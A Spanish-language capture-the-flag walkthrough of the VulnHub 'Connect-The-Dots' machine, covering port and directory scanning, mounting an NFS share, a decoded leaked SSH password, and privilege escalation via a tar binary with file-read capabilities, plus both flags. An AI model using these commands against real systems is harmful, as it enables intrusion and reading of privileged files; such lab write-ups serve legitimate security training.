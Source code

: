 ```yaml
---
icon: flag
---
```


# Connect-The-Dots VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

### Gobuster

Utilizamos esta herramienta para escanear el puerto 80...

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST>
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.195.131/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 299]
/backups              (Status: 200) [Size: 6301]
/images               (Status: 301) [Size: 319] [--> http://192.168.195.131/images/]
/javascript           (Status: 301) [Size: 323] [--> http://192.168.195.131/javascript/]
/manual               (Status: 301) [Size: 319] [--> http://192.168.195.131/manual/]
/mysite               (Status: 301) [Size: 319] [--> http://192.168.195.131/mysite/]
/server-status        (Status: 403) [Size: 303]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Encontramos que hay un servicio `mount` corriendo...

```shell
showmount -e <IP>
```

```shell
sudo mount -o nolock <IP>:<RUTA_ENCONTRADA> <NUESTRA_RUTA_DONDE_EXPORTARLO>
```

Si todo salio bien podremos ver toda la carpeta que se esta compartiendo en ese puerto...

Si nos vamos a la siguiente ruta `/mysite/` vemos que nos descarga un archivo CS que dentro contiene una codificacion en `JSFuck`

Si lo decodificamos...

```
alert("You're smart enough to understand me. Here's your secret, TryToGuessThisNorris@2k19")
```

Por lo que con esto nos conectaremos al ssh con esa contraseña con el usuario `norris`:

```shell
ssh norris@<IP> -p 7822
```

Leemos en la home de norris la primera flag:

> user.txt (flag1)

```
2c2836a138c0e7f7529aa0764a6414d0
```

### Escalada de privilegios

Si metemos el siguiente comando podremos ver lo que podemos hacer con nuestro usuario en las capabilities con permisos de root por asi decirlo...

```shell
/sbin/getcap -r / 2>/dev/null
```

Info:

```
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/tar = cap_dac_read_search+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/ping = cap_net_raw+ep
```

Por lo que vemos el binario `tar` tiene la capabilitie activada para que nosotros tambien lo podamos usar con los permisos de "root"

Si nos movemos en la carpeta `/tmp/` y creamos un enlace directo a la flag de root...

```shell
ln -s /root/root.txt
```

Y aprovechando el binario que puede hacer como "root"...

```shell
LFILE=root.txt
```

```shell
tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
```

Y con esto podremos leer la flag de root:

> root.txt (flag2)

```
8fc9376d961670ca10be270d52eda423
```
